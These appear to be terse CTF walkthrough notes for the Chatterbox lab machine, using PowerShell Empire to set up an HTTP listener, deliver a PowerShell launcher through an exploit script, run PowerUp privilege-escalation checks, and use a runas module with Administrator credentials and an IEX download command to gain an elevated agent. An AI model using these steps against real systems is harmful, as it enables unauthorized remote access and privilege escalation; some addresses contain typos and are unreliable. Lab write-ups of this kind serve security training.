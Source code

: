 Use Empire
- git clone it, `cd setup` and `./install.sh`
- `listeners` to lit them
- then `uselistener http`, hit tab
- `info`
- `set Host http://10.10.10.14.30:443`
- `set BindIP 10.10.14.30`
- `set Port 443`
- `execute` to start up a lister
- `back`, `back `
- `uselistener http` again and `launcher powershell` to give us the powershell command, copy the output and put in the PleaseSub.ipp file
- then run the 3**.py exploit again and get the shell(agent in empire)
- if we do `agents`, we now have an agent, then `interact 7893D4PV`, `info`
- we can do `searchmodule powerup` (powerup is a module)
- then `usemodule privesc/powerup/allchecks` (remove powershell in front cause our agent is a powershell agent)
- `info` to see if we have the corrent agent
- then `execute` then back and `interact 7893D4PV`
- `searchmodule runas`, then `usemodule management/runas`
- `info` and `set UserName Administrator`, `set Domain CHATTERBOX`, `set Password Welcome1!`
- `set Cmd Powershell`
- `set Arguements "<IEX command to get the Pleasesub.ipp"`
- `execute` and we get a new agent
- `agents` to see them, the `*` in front of the `CHATTERBOX\Adminsitrator`, means that its UAC bypasses
CHECK Ippsec Blue video for detailed use on Empire